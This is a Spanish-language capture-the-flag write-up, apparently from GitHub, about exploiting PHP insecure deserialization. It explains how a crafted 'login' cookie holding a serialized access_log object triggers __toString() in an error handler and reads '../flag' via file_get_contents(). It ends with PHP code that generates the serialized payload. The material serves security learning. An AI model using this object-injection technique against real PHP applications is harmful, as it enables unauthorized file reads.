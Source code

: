 ```
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

En este código, vemos toda la información del objeto permissions que comprueba el if del index.php.

Vemos que se comprueba si en el navegador existe una cookie llamada 'login', y se realizan las comprobaciones de las funciones is_guest() e is_admin() con ella.

Sin embargo, no se comprueba correctamente el saneamiento de la cookie, es decir, si alguna de las funciones is_guest() o is_admin() tuvieran un error, se entraría en el catch y se imrpimiría la variable $perm.

Para aprovechar esto, en authentication.php tenemos la función file_get_contents(), que imprime el contenido de un archivo, podemos usar esto para acceder a '../flag'.

Entonces, tenemos que crear una cookie con la siguiente información:

1. Tiene que ser un objeto php serializado, en concreto access_log
2. cookie.php almacenará en $perm todo el objeto deserializado.
3. Dará error en las funciones is_guest() e is_admin()
4. Al ser impresa por el catch, se llamará a __toString() del access_log, que a si vez llama a read_log(), que llama a file_get_contents() de $log_file (atributo de access_log)
5. Para poner en $log_file la ruta de la flag, será tan sencillo como llamar a su constructor __construct(), que hará esto automáticamente.

Acudiremos a un interpretador de php online, como por ejemplo [https://www.programiz.com/php/online-compiler/](https://www.programiz.com/php/online-compiler/) e introduciremos el siguiente código:

```
<?php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
echo(serialize(new access_log("../flag")))
```